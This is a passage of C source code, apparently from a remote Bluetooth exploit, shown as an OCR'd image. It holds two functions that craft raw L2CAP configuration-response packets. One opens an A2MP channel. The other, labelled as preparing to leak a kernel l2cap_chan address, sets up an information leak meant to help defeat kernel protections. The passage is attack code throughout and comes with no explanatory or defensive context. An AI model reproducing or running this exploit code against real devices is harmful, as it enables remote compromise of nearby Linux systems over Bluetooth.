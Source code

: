     static void connect_a2mp(void) {
      printf("[*] Connecting A2MP channel...\n");

      struct {
        l2cap_hdr hdr;
      } a2mp_create = {0};
      a2mp_create.hdr.len = htobs(sizeof(a2mp_create) - L2CAP_HDR_SIZE);
      a2mp_create.hdr.cid = htobs(AMP_MGR_CID);
      hci_send_acl_data(hci_sock, hci_handle, &a2mp_create, sizeof(a2mp_create), 2);

      // Configure to L2CAP_MODE_BASIC and max MTU.
      struct {
        l2cap_hdr hdr;
        l2cap_cmd_hdr cmd_hdr;
        l2cap_conf_rsp conf_rsp;
        l2cap_conf_opt conf_opt;
        l2cap_conf_rfc conf_rfc;
        l2cap_conf_opt conf_opt2;
        uint16_t conf_mtu;
      } conf_rsp = {0};
      conf_rsp.hdr.len = htobs(sizeof(conf_rsp) - L2CAP_HDR_SIZE);
      conf_rsp.hdr.cid = htobs(SIGNALLING_CID);
      conf_rsp.cmd_hdr.code = L2CAP_CONF_RSP;
      conf_rsp.cmd_hdr.ident = L2CAP_IDENT;
      conf_rsp.cmd_hdr.len =
          htobs(sizeof(conf_rsp) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
      conf_rsp.conf_rsp.scid = htobs(AMP_MGR_CID);
      conf_rsp.conf_rsp.flags = htobs(0);
      conf_rsp.conf_rsp.result = htobs(L2CAP_CONF_UNACCEPT);
      conf_rsp.conf_opt.type = L2CAP_CONF_RFC;
      conf_rsp.conf_opt.len = sizeof(l2cap_conf_rfc);
      conf_rsp.conf_rfc.mode = L2CAP_MODE_BASIC;
      conf_rsp.conf_opt2.type = L2CAP_CONF_MTU;
      conf_rsp.conf_opt2.len = sizeof(uint16_t);
      conf_rsp.conf_mtu = htobs(0xffff);
      hci_send_acl_data(hci_sock, hci_handle, &conf_rsp, sizeof(conf_rsp), 2);
    }

    static void prepare_l2cap_chan_addr_leak(void) {
      printf("[*] Preparing to leak l2cap_chan address...\n");

      struct {
        l2cap_hdr hdr;
        l2cap_cmd_hdr cmd_hdr;
        l2cap_conf_rsp conf_rsp;
        l2cap_conf_opt conf_opt;
        l2cap_conf_rfc conf_rfc;
      } conf_rsp = {0};
      conf_rsp.hdr.len = htobs(sizeof(conf_rsp) - L2CAP_HDR_SIZE);
      conf_rsp.hdr.cid = htobs(SIGNALLING_CID);
      conf_rsp.cmd_hdr.code = L2CAP_CONF_RSP;
      conf_rsp.cmd_hdr.ident = L2CAP_IDENT;
      conf_rsp.cmd_hdr.len =
          htobs(sizeof(conf_rsp) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);
      conf_rsp.conf_rsp.scid = htobs(AMP_MGR_CID);
      conf_rsp.conf_rsp.flags = htobs(0);
      conf_rsp.conf_rsp.result = htobs(L2CAP_CONF_UNACCEPT);
      conf_rsp.conf_opt.type = L2CAP_CONF_RFC;
      conf_rsp.conf_opt.len = sizeof(l2cap_conf_rfc);
      conf_rsp.conf_rfc.mode = L2CAP_MODE_ERTM;
      hci_send_acl_data(hci_sock, hci_handle, &conf_rsp, sizeof(conf_rsp), 2);
    }

